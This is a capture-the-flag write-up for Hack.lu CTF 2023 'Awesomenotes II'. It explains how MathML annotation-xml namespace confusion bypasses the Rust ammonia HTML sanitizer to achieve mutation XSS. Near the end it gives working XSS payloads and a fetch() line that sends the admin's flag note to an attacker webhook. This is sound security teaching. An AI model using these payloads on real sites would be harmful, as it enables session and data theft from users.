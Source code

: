 ```yaml
---
title: Awesomenotes II - Hack.lu CTF 2023
date: 2023-10-16 17:09:06
author: Z_Pacifist
author_url: https://twitter.com/ZePacifist
categories:
  - Web
tags:
  - Hack.lu CTF 2023
  - Writeup
  - Web
  - mXSS
---
```


**tl;dr**

+ XSS + HTML sanitization library [(ammonia)](https://github.com/rust-ammonia/ammonia/tree/master) bypass
+ Namespace confusion in ammonia using custom allowed extra tags(math & style)

<!--more-->

**Challenge points**: 253
**No. of solves**: 15
**Solved by**: [Z_Pacifist](https://twitter.com/ZePacifist), [lu513n](https://twitter.com/Lu513n), [alfin](https://twitter.com/Alfinjoseph19), [ma1f0y](https://twitter.com/mal_f0y), [L0xm1](https://twitter.com/L0xm1_07) <!--Change username-->

## Challenge Description

Admittedly, that was a little embarrassing. We've fixed that issue though and have become truly unpwnable now (for real). Do it, you wont.
link: https://awesomenotes2.online/


## Analysis

Taking a look at the given source files, there are 3 endpoints of note:
`/create - create a note`
`/report - report a note`
`/api/note/:note - view note`
*note - admins note is in /api/note/flag*


The following function handles the creation of notes:
```rs
async fn upload_note(
    mut multipart: Multipart,
) -> (StatusCode, Result<HeaderMap<HeaderValue>, &'static str>) {
    let mut body: Option<String> = None;
    while let Some(field) = multipart.next_field().await.unwrap() {
        let Some(name) = field.name() else { continue };
        if name != "note" {
            continue;
        }
        let Ok(data) = field.text().await else {
            continue;
        };
        body = Some(data);
        break;
    }
    let Some(body) = body else {
        return (StatusCode::BAD_REQUEST, Err("Malformed formdata"));
    };
    if body.len() > 5000 {
        return (StatusCode::PAYLOAD_TOO_LARGE, Err("Note too big"));
    }
    let safe = ammonia::Builder::new()
        .add_tags(TAGS)
        .add_tags(&["style"])
        .rm_clean_content_tags(&["style"])
        /*
            Thank god we don't have any more XSS vulnerabilities now 🙏
        */
        // .add_generic_attribute_prefixes(&["hx-"])
        .clean(&body)
        .to_string();
    let mut name = [0u8; 32];
    fs::File::open("/dev/urandom")
        .unwrap()
        .read_exact(&mut name)
        .expect("Failed to read urandom");
    let name = String::from_iter(name.map(|c| format!("{:02x}", c)));
    fs::write(format!("public/upload/{:}", name), safe).expect("Failed to write note");
    (
        StatusCode::FOUND,
        Ok(HeaderMap::from_iter([(
            LOCATION,
            format!("/note/{:}", name).parse().unwrap(),
        )])),
    )
}
```

Whatever html content we provide is passed through the [ammonia library](https://docs.rs/ammonia/latest/ammonia/), which is

> a whitelist-based HTML sanitization library, designed to prevent cross-site scripting, layout breaking, and clickjacking caused by untrusted user-provided HTML being mixed into a larger web page.

Along with the default allowed tags and attributes of ammonia, a custom list of `TAGS` which are math tags, and the style tag is also allowed using `.add_tags`.

These extra tags being allowed hint at Mutation XSS which can be achieved by using namespace confusion involving the `mathml` and `html` namespace.


## Exploitation

Initially, we created a testing setup locally just to inspect how different tags interact with each other when the `clean` function of ammonia is run against it.

```rs
// list of TAGS
fn main() {

    let init="<script>alert(1)</script>";

    let safe = ammonia::Builder::new()
        .add_tags(TAGS)
        .add_tags(&["style"])
        .rm_clean_content_tags(&["style"])
        .clean(init)
        .to_string();


    println!("{}",init);
    println!("{}", safe);
}
```

We started off by throwing a few mXSS payloads for other libraries such as DOMpurify including one from https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss which uses namespace confusion to achieve XSS. Another thing to note is that the `svg` tag is disallowed by default. Many of the other mXSS payloads make use of the `svg` namespace also but the one in the blog above includes tags (mostly) allowed in this case and Hence we can take a closer look at it.

`<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">`

The blog provides a pretty good explanation about the payload which can be summarized in the following points:
+ Anything within the `<style>` tag within the `html` namespace is treated as plaintext but within `mathml` namespace is treated as html tags.
+ `<mtext>` within `mathml` context makes parsers treat everything within it in the `html` namespace.
+ The `<mglyph>` tag is special because it's in the MathML namespace if it's a direct child of a MathML text integration point. All other tags are in the HTML namespace by default.
+ Table gets reordered in the DOM which makes `<mglyph>` a direct child of MathML text and hence `<style>` is now in MathML namespace.

The above payload does not work for us as the `<mglyph>` tag is not present in the allowlist.

With the above concepts in mind, we can take a quick look at the part of the source code of ammonia that deals with checking namespaces of parent and child elements - [check expected namespace function](https://github.com/rust-ammonia/ammonia/blob/master/src/lib.rs#L2023)
```rs
...
 // The only way to switch from mathml to svg/html is with a text integration point
        } else if parent.ns == ns!(mathml) && child.ns != ns!(mathml) {
            // https://html.spec.whatwg.org/#mathml
            matches!(
                &*parent.local,
                "mi" | "mo" | "mn" | "ms" | "mtext" | "annotation-xml"
            )
            ...
```

Here, we find something interesting. `"mi" | "mo" | "mn" | "ms" | "mtext" | "annotation-xml"`, These are the tags which ammonia checks when switch from mathml to svg/html namespace is detected. Among these, `annotation-xml` is of particular interest as we had come across it in another blog on mXSS - https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/

Quoting from the above blog,

> HTML integration points are:
math annotation-xml if it has an attribute called encoding whose value is equal to either text/html or application/xhtml+xml
svg foreignObject
svg desc
svg title


This mentions an attribute `encoding` which can have different values producing different functionality in how contents within it are parsed.
Quoting from https://w3c.github.io/mathml/spec.html#mixing_elements_annotation_xml:

> If the annotation-xml has an encoding attribute that is (ignoring case differences) text/html or annotation/xhtml+xml then the content is parsed as HTML and placed (initially) in the HTML namespace.
Otherwise, it is parsed as foreign content and parsed in a more XML-like manner (like MathML itself in HTML) in which /> signifies an empty element. Content will be placed in the MathML namespace.


This basically translates to:
+ If there is `encoding="text/html"`, content will be placed in the `html` namespace.
+ If there is no attribute, content will be placed in the `mathml` namespace. 

Testing this out using the test setup we have, it can be observed that ammonia considers the attribute and treats contents within the `annotation-xml` tag according to whatever specified but in the "clean" html that it returns, it strips the attribute. Using this, final payload can be created.

## mXSS Explanation

`<math><annotation-xml encoding="text/html"><style><img src=x onerror="alert(1)"></style></annotation-xml></math>`

The above payload can be used to pop an alert on the page. To understand why this works, we can first look at the html that ammonia returns when the payload is parsed.

```
Input - <math><annotation-xml encoding="text/html"><style><img src=x onerror="alert(1)"></style></annotation-xml></math>
Output - <math><annotation-xml><style><img src=x onerror="alert(1)"></style></annotation-xml></math>
```

`encoding="text/html"` treats the `style` tag in the html namespace and hence, content inside it is treated as plaintext and no filtering is done on it but when the attribute is removed, `style` tag is now in the `mathml` namespace where tags within the `style` tag are considered as html tags.


Trying out the output in a live-dom viewer such as https://software.hixie.ch/utilities/js/live-dom-viewer/ shows the difference between how the DOM views the input and the output.


### Final steps

Now that we have XSS, we just have to make the admin visit the `/api/note/flag` endpoint and send the content to a domain controlled by us.
For that we can use
```js
fetch(`/api/note/flag`).then((r)=>r.text()).then((r)=>location=`<webhook>?a=`+encodeURIComponent(r))
```
Final payload:
```
<math><annotation-xml encoding="text/html"><style><img src=x onerror="eval(atob(`<base64 payload`))"></style></annotation-xml></math>
```